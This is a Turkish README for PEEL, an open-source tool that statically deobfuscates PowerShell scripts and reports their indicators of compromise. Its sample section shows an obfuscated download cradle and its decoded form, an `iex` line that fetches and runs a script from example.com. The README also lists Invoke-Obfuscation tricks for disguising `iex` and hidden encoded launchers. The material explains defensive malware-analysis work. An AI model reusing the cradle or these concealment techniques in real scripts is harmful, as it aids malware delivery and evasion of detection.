










<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="public/peel-logo-horizontal-dark-1600.png">
    
  </picture>
</p>

<p align="center">
  <b>PowerShell betiklerindeki gizlemeyi tarayıcının içinde soyar.</b><br>
  Açık kaynak · MIT · sonsuza dek ücretsiz · kodunuz cihazınızdan çıkmaz
</p>

<p align="center">
  <a href="README.md">English</a> ·
  <a href="#hızlı-başlangıç">Hızlı başlangıç</a> ·
  <a href="#örnek">Örnek</a> ·
  <a href="#özellikler">Özellikler</a> ·
  <a href="#statik-değerlendirici">Değerlendirici</a> ·
  <a href="#komut-satırı">CLI</a> ·
  <a href="#nasıl-çalışır">Nasıl çalışır</a> ·
  <a href="#benchmark">Benchmark</a>
</p>

<p align="center">
  
</p>

---

## PEEL nedir?

PEEL bir PowerShell deobfuscator'ıdır. Gizlenmiş (obfuscate edilmiş) bir `.ps1` dosyasını, bir `powershell -enc ...` komut satırını
ya da bir `cmd /c` başlatıcısını yapıştırın, **Çöz**'e basın (`Ctrl + Enter`). Okunur kodu ve betiğin ne yaptığını anlatan bir raporu
geri alırsınız. Gerçekte karşılaşılan betikler için yapılmıştır: dropper'lar ve indirme sarmalları (download cradle), AMSI
atlatmaları, kalıcılık betikleri, ters kabuklar ve [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
çıktıları (TOKEN, STRING, ENCODING, COMPRESSION ve LAUNCHER).

PowerShell gizlemelerinin çoğu asıl betiği `Invoke-Expression`'ın arkasına saklar: parçalardan, `-f` biçim dizgelerinden, ters
çevrilmiş metinden, `[char]` kodlarından, XOR'dan, base64'ten, Deflate/GZip akışlarından ya da bir SecureString'den kurulan bir dizge,
kendisi de `$ShellId[1]+$ShellId[13]+'x'` ya da `$env:ComSpec[4,15,25]-join''` diye yazılmış bir `iex`'e verilir; çoğu zaman
`powershell -w hidden -enc ...` içinde. `iex`'i elle `Write-Output` ile değiştirmek bir katmanda işe yarar, sonrakinde bozulur.
PEEL bunu düzgün yapar:

- **Betiği hiçbir zaman çalıştırmaz.** PEEL PowerShell'i bir sözdizimi ağacına ayrıştırır ve sabit değerleri kendi statik
  değerlendiricisiyle hesaplar: dizgeler, sayılar, diziler, dönüştürmeler, `-f`/`-join`/`-split`/`-replace`/`-bxor`, `[Convert]`,
  `[Text.Encoding]`, `[char]`, raw Deflate ve GZip, `ConvertTo-SecureString -Key`. Geri kalan her şey (komutlar, ağ, dosyalar,
  kayıt defteri, bilinmeyen yöntemler) olduğu gibi kalır.
- **Kanıtlayabildiği her katmanı açar.** `iex 'KOD'`, `'KOD' | iex`, `.(kılık-değiştirmiş-iex)`, `[ScriptBlock]::Create`,
  `$ExecutionContext.InvokeCommand.InvokeScript`, `powershell -EncodedCommand`, `cmd /c`, `set X=... && powershell ... $env:X` ve
  `echo ... | powershell -` çalıştıracakları kodla değişir; değişiklik kalmayana kadar tur tur.
- **Kendi değişikliklerini denetler.** Her geçişten sonra kod yeniden ayrıştırılır; bulduğundan fazla ayrıştırılamayan deyim bırakan
  geçiş geri alınır. Windows PowerShell'deki davranış ayrıca ölçülür (bkz. [Testler](#testler) ve [Benchmark](#benchmark)).
- **Betiğin ne yaptığını anlatır.** Rapor; tespit edilen gizleyiciyi ve teknikleri, açılan katmanları (başlatıcı bayraklarıyla),
  çözülmüş koddaki ağ/komut/dosya çağrılarını, IOC'leri (URL, IP, alan adı, indirme sarmalları, AMSI atlatmaları, kalıcılık izleri,
  Discord webhook'ları, Telegram botları), kanıtlı bir tehdit puanını ve önce/sonra okunabilirlik puanını gösterir.
- **Makinenizde kalır.** Sunucu, telemetri ya da yükleme yoktur. Durum çubuğu sayfanın yaptığı her dış isteği sayar; bunu kendiniz
  de denetleyebilirsiniz.

Her şeyi tek düğme çalıştırır. Önce anlamanız gereken bir ayar yok.

## Hızlı başlangıç

Node.js 22.13 ya da daha yenisi gerekir (CLI, çözücüyü Node'un izin modeliyle yalıtır).

```bash
git clone https://github.com/LLCForge/Peel-PS.git
cd Peel-PS
npm install
npm run dev
```

<http://localhost:5173> adresini açın. Kodu yapıştırın, sayfaya bir `.ps1`, `.psm1`, `.psd1` ya da `.txt` dosyası bırakın veya
**Örnek kodla dene**'ye tıklayın, ardından **Çöz**'e basın. Bayt sıra işaretli (BOM) UTF-16 dosyalar doğru okunur.

Her yerde barındırılabilen statik site için:

```bash
npm run build
```

`dist/` klasörü uygulamanın tamamıdır (yaklaşık 200 KB gzip'li JavaScript ve 154 KB'lık çözücü worker'ı); Netlify ve Cloudflare
Pages için worker CSP'sini içeren bir `_headers` dosyası da vardır. İlk ziyaretten sonra PWA olarak çevrimdışı da çalışır.

## Ekran görüntüleri

<table>
  <tr>
    <td width="50%"><br><sub><b>Başlangıç ekranı.</b> Yapıştırın, dosya ya da klasör bırakın veya örneği deneyin.</sub></td>
    <td width="50%"><br><sub><b>Girdi.</b> PowerShell vurgulamalı, katlamalı ve mini haritalı CodeMirror editörü.</sub></td>
  </tr>
  <tr>
    <td><br><sub><b>Rapor.</b> Özet, tehdit puanı, Invoke-Obfuscation ve kullandığı teknikler, katmanlar, IOC'ler.</sub></td>
    <td><br><sub><b>Zaman çizelgesi.</b> Her geçiş ve turdan sonraki kodda gezinin.</sub></td>
  </tr>
  <tr>
    <td><br><sub><b>Fark.</b> Girdi ile çıktı arasında ne değişti.</sub></td>
    <td><br><sub><b>Kayıt.</b> Her geçiş, her geri alma ve açılan her katman.</sub></td>
  </tr>
</table>

<p align="center">
  <br>
  <sub>Arayüz telefonda da çalışır.</sub>
</p>

Ekran görüntülerindeki girdi, Invoke-Obfuscation'ın COMPRESSION ve TOKEN çıktısı tarzındaki yerleşik örnektir: `IO.StreamReader`
ile okunan raw Deflate + base64 katmanı, `$ShellId`'den kurulan bir `iex` ve her yerde rastgele büyük/küçük harf. Yük, `-f` ile kurulan
bir komut adıyla selam yazdırır ve `(New-Object Net.WebClient).DownloadString('https://example.com/...')` sonucunu `iex`'e verir. Hiçbir
şey indirilmez, hiçbir şey çalışmaz; indirme yalnızca raporda görünür ve rapor bunu kritik işaretler, çünkü `iex`'e bağlanan bir indirme
sarmalı tam olarak bir dropper'a benzer. Örneğin amacı da budur.

## Örnek

Yerleşik örnek ([`src/sample.js`](src/sample.js)), tek satırda 491 bayt:

```powershell
# Peel-PS örnek girdisi
.( $sHelLiD[1]+$sHelLiD[13]+'x') (nEw-ObJecT iO.sTrEamReAdeR((nEw-ObJecT iO.cOmPreSsIon.dEflAtEstReAm([iO.mEmOryStReaM][cOnvErT]::fRomBaSe64sTriNg('JczNCoJAFIbhvVfxFdEo…'),[iO.cOmPreSsIon.cOmpReSsiOnModE]::dEcoMpResS)),[tExt.eNcoDiNg]::aSciI)).rEadToEnd()
```

`node bin/peel-ps.js sample.ps1` çözülmüş kodu stdout'a, özeti stderr'e yazar:

```powershell
# Peel-PS örnek girdisi
$u = 'https://example.com/kurulum.ps1'
function Selam { Write-Host 'Merhaba, Peel-PS!' }
Selam
if ($false) { Write-Output asla }
iex (New-Object Net.WebClient).DownloadString($u)
```

```text
[critical 80/100] Obfuscator: Invoke-Obfuscation (%90). Kullanılan teknikler: Deflate/GZip sıkıştırma katmanı, base64 katmanı,
Invoke-Expression katman zinciri, -f biçim dizgesiyle parça birleştirme ve değişken/komut dolaylılığı (Get-Variable, Set-Variable,
${..}, &(...)). 1 kod katmanı (iex / -EncodedCommand / cmd) açıldı ve kod 491 bayttan 203 bayta indi; okunabilirlik 29 → 96/100.
Tehdit düzeyi kritik (80/100): Uzaktan indirip çalıştırma (indirme sarmalı + iex). Çözülmüş kodda 1 ağ, 0 komut ve 0 dosya çağrısı
var; hiçbiri çalıştırılmadı. IOC: 1 indirme sarmalı.
```

Sıkıştırılmış katman `iex`'in çağrıldığı yere yazıldı, `& ("{1}{0}" -f 'ost', 'Write-H')` `Write-Host` oldu, yazım kanonik hâline
döndü ve `if (1 -gt 2)` `if ($false)` olarak katlandı. Dalın kendisi kalır: PEEL ölü kodu silmez (bkz. [sınırlar](#dürüst-sınırlar)).
`iex ... DownloadString($u)` satırı olduğu gibi kalır, çünkü ne çalıştıracağı indirmeye bağlıdır; rapor `$u`'yu çözer ve
`https://example.com/kurulum.ps1` adresini ağ hedefi olarak listeler.

## Özellikler

### Gizleme aileleri

| Aile | PEEL'in geri aldığı |
|---|---|
| TOKEN | adlardaki ters tırnaklar (`` W`r`iTe-H`oSt ``, kaçış harflerine dokunulmaz), rastgele büyük/küçük harf, dizge birleştirme, komut, argüman, üye (`.("{1}{0}" -f ...).Invoke(...)`) ve türlerin (`New-Object ("{0}{1}" -f ...)`) `-f` ile yeniden sıralanması, `${süslü}` değişkenler, `Get-Variable`/`gv`/`Get-Item variable:`/`Set-Variable`/`sv` dolaylılığı, sabit karma tablolarla sıçratma (splatting), `&(...)` ve `.(...)` komut adları |
| STRING | birleştirme, `-f` yeniden sıralama, ters çevirme (`$s[-1..-($s.Length)]`, `[regex]::Matches(..., 'RightToLeft')`, `[Array]::Reverse`), `-join`/`-split`, `[char]` dizileri ve dönüştürmeleri, `.Replace` zincirleri, `-replace`/`-creplace`, `[string]::Join`/`Concat`/`Format` |
| ENCODING | ASCII, onaltılık, sekizlik ve ikilik karakter kodları (`[Convert]::ToInt16($_, 16)`), BXOR, SecureString (`ConvertTo-SecureString -Key`, `PtrToStringAuto`, `PSCredential`), yalnızca özel karakterlerden kod (`"$(@{})"` ve `"".Insert` ile `${;}=+$();...`), tüm .NET metin kodlamalarıyla base64 |
| COMPRESSION | `[Convert]::FromBase64String` üzerinde `IO.Compression.DeflateStream` ve `GZipStream`; `StreamReader.ReadToEnd`, `CopyTo` + `MemoryStream.ToArray` ya da `GetString` ile okuma |
| LAUNCHER | `-EncodedCommand` (kabul edilen tüm kısaltmalar), `-Command` ve konumsal komutla `powershell`/`pwsh`, `cmd /c`, `%COMSPEC% /b /c start /b /min ...`, `set VAR=... && powershell ... $env:VAR`, `echo ... \| powershell -`, betik içindeki iç içe başlatıcılar |

`iex`, Invoke-Obfuscation'ın kullandığı her kılıkta tanınır: `$ShellId[1]+$ShellId[13]+'x'`, `$PSHome[4]+$PSHome[30]+'x'`,
`$PSHome[21]+$PSHome[30]+'x'`, `$env:ComSpec[4,15,25]-join''`, `$env:Public[13]+$env:Public[5]+'x'`,
`$VerbosePreference.ToString()[1,3]+'x'-join''`, `(gv '*mdr*').Name[3,11,2]-join''`, `(Get-Command *ke-E*n)` ve özel karakter biçimi.
`iex 'KOD'`, `'KOD' | iex`, `'İFADE' | iex | iex`, `Invoke-Expression -Command`, `$ExecutionContext.InvokeCommand.InvokeScript`,
`. ([ScriptBlock]::Create('KOD'))` (yerine yazılır) ve `& ([ScriptBlock]::Create('KOD'))` (`& { KOD }` olur) biçimleri açılır.

**Derlenmiş betikler tanınır, çözülmez.** PS2EXE yürütülebilirleri ve diğer PE ikilileri düz metinde bıraktıkları izlerden tanınır.
PEEL yalnızca PowerShell betiği metnini açar; yerel kod çalıştırmaz.

### Geçişler

Altı geçiş bu sırayla, değişiklik kalmayana kadar turlar hâlinde çalışır (en fazla 64 tur). Her biri [`src/passes/`](src/passes)
altında küçük bir modüldür.

| Geçiş | |
|---|---|
| `launcher` | `powershell -enc` / `-Command`, `cmd /c` ve `start` satırlarını taşıdıkları PowerShell koduyla değiştirir. Dosyanın tamamı olan başlatıcı kodun kendisi olur; daha büyük bir betiğin içindeki başlatıcı `& { KOD }` olur (alt süreç ayrı kapsamdır). Başlatıcı bayraklarını kaydeder. |
| `ticks` | Hiçbir şeyi kaçırmayan ters tırnakları siler. `` `0 `a `b `e `f `n `r `t `u `v `` adların içinde bile kaçıştır ve kalır; tek tırnaklı dizgelere dokunulmaz; `${...}` içinde ters tırnak yalnızca sürücü nitelikli adlarda (`${e`Nv:ComSpec}`) silinir, çünkü `${a`b}`'de adın parçasıdır. |
| `layers` | `iex` sitelerini, `InvokeScript`'i, nokta ile kaynak gösterilen betik bloklarını ve `'...' \| iex` boru hatlarını, kodları değerlendiricinin hesaplayabildiği bir sabitse ve ayrıştırılabiliyorsa, çalıştıracakları kodla değiştirir. Değer bağlamında (`$x = iex '...'`) tek boru hattı yerine yazılır, uzun kod `$( ... )` olur. |
| `fold` | Yan etkisiz en büyük ifadeleri değerleriyle değiştirir: `("{1}{0}" -f 'ost','Write-H')` → `'Write-Host'`, çözücüler → çözülmüş dizge, `[ScriptBlock]::Create('...')` → `{ ... }`, `[Type]('Net.'+'WebClient')` → `[Net.WebClient]`. Bayt dizileri, karakter dizileri ve çok büyük sonuçlar yazılmaz. |
| `names` | Hesaplanmış komut, üye ve tür adlarını, hesaplanmış üyelerdeki `.Invoke(...)`'u, `${süslü}` değişkenleri, `Get-Variable`/`Set-Variable`/`Get-Item variable:` dolaylılığını ve tek kullanımlık sabit sıçratmaları çözer. |
| `unused` | Değeri statik olarak hesaplanmış ve artık hiçbir yerde okunmayan üst düzey atamaları ve yalnızca bu değişkenlere dokunan deyimleri (`[Array]::Reverse($c)`, `$z.CopyTo($out)`, `++$i`) siler; zincirler geriye doğru çözülür. Adlar dolaylı okunabiliyorsa (çözülemeyen `iex`, nokta ile kaynak, joker `Get-Variable`) atlanır. |

### Motor

- **Ayrıştırıcı.** Bu proje için yazılmış, her düğümde kaynak konumu tutan bir PowerShell ayrıştırıcısı: komut ve ifade kipleri,
  tüm dizge biçimleri (tek tırnak, `$(...)` genişletmeli çift tırnak, here-string, akıllı tırnaklar), `${...}` değişkenler, tür
  değişmezleri ve dönüştürmeler, işleç önceliği (`-f`, `*`'dan sıkı; tekli `-join`, `,`'den sıkı bağlar), anahtar sözcükler, işlevler,
  `param`, `class`. Ayrıştıramadığı deyim ham düğüm olur ve bayt bayt korunur.
- **Değişken akışı.** Üst düzey deyimler sırayla gezilir; her değişken okuması o noktadaki değeri alır (yeniden atama, `+=`, `++`,
  `Set-Variable`, `[Array]::Reverse` ve akışlardaki `CopyTo`/`Write` izlenir). İşlev, döngü ve betik bloklarının içinde bir değişken
  yalnızca betikte bir kez, üst düzeyde ve bloktan önce atanmışsa kullanılır. Otomatik değişkenler (`$ShellId`, `$PSHome`,
  `$env:ComSpec`, `$VerbosePreference`, `MaximumDriveCount` ...) betik onlara atama yapmıyorsa Windows PowerShell 5.1 değerlerini alır.
- **Biçimlendirme.** Bilinen cmdlet (Windows PowerShell 5.1 çekirdek kümesinin tamamı), takma ad, parametre, .NET tür ve üye adlarının
  kanonik yazımı; küçük harfli işleç ve anahtar sözcükler; betik değişkenlerinin tutarlı yazımı; satır başına bir deyim ve girinti.
  Biçimlendirilmiş kod yalnızca dizgeleri, yorumları ve küçük harfe çekilmiş kodu biçimlendirilmemiş kodla aynıysa tutulur.
- **Sınırlar.** Dosya başına süre ve adım bütçesi (uygulamada ve CLI'da 30 sn), en fazla 256 açılan katman, 16 MB girdi, dizge başına
  32 MB, bir milyon dizi öğesi, açılan akış başına 64 MB; iç içe niceleyicili düzenli ifadeler değerlendirilmez. Bütçe dolunca o ana
  kadarki sonuç döner ve kısmi olarak işaretlenir.

### Analiz raporu

- Tespit edilen gizleyici (Invoke-Obfuscation, izleri kanıt olarak) ve teknikler, güven ve kanıtla
- Açılan katmanlar: tür (`encodedcommand`, `command`, `cmd`, `stdin`, `iex`, `invokescript`, `dot-source`), boyut ve başlatıcı bayrakları
- Tehdit puanı ve sınıfları: uzaktan indirip çalıştırma, dosya indirici, AMSI atlatma, savunma atlatma (Defender, günlük, ETW, gizli
  pencere), kalıcılık (Run anahtarı, zamanlanmış görev, hizmet, WMI aboneliği, Başlangıç klasörü), kimlik bilgisi hırsızlığı, ters kabuk,
  bellekte yükleme ve enjeksiyon, yetki yükseltme (UAC atlatma, RunAs), yıkıcı işlem, kripto para madencisi, sistem keşfi, veri sızdırma
- Çözülmüş kodda bulunan davranış: hedefleriyle ağ çağrıları (değişkenler çözülür), komutlar, dosya işlemleri, diğer çağrılar
  (`Add-Type`, `[Reflection.Assembly]::Load`)
